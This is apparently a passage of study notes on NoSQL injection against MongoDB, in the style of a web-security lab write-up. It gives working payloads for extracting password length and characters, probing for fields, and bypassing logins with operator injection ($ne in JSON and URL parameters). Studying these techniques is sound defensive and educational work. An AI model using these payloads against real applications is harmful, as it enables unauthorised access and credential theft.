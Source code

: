 Another payload to use to get the length of the password using the same technique:
```
administrator' && this.password.length < 30 || 'a'=='b
```

To test for the existence of a field, we can determine the response for one that exists, and then use that to check for a different response if the column doesn't exist.
```
admin' && this.foo!='
```
- This checks if the `foo` column exists.

Another payload to use the `match()` function that uses [[Regular Expressions]] to identify if there are numbers in the password.
```
admin' && this.password.match(/\d/) || 'a'=='b
```

---
### Operator Injection

Query operators are used to specify conditions, some of the MongoDB operators are:
- `$where` - Matches documents that satisfy a JavaScript expression.
- `$ne` - Matches all values that are not equal to a specified value.
- `$in` - Matches all of the values specified in an array.
- `$regex` - Selects documents where values match a specified [[Regular Expressions|Regular Expression]].

To discover an operator injection point, try submitting different operators into different user input points, and view the returned responses.
- The way to insert operators depends on the input method.

For `JSON`, the operators can be inserted as nested objects.
- So `{"username":"wiener"}` will become 
```
{"username":{"$ne$":"invalid"}}
```

For inputs in the URL, the inputs can be inserted using query parameters.
- So `username=wiener` will become
```
username[$ne]=invalid
```
- Or, using a `POST` request instead and changing the `Content-Type` [[HTTP#HTTP Headers|HTTP Header]] to `application/json`, and using the `JSON` message as above.

###### Injection

Each input should be tested using a range of operators using the methods described above.
- Consider a vulnerable application that accepts a username and password in the body of a `POST` request:
```
{"username":"wiener","password":"peter"}
```

 If the `$ne` operator is applied, this queries all users where the username is not equal to `invalid`.
```
{"username":{"$ne":"invalid"},"password":"peter"}
```
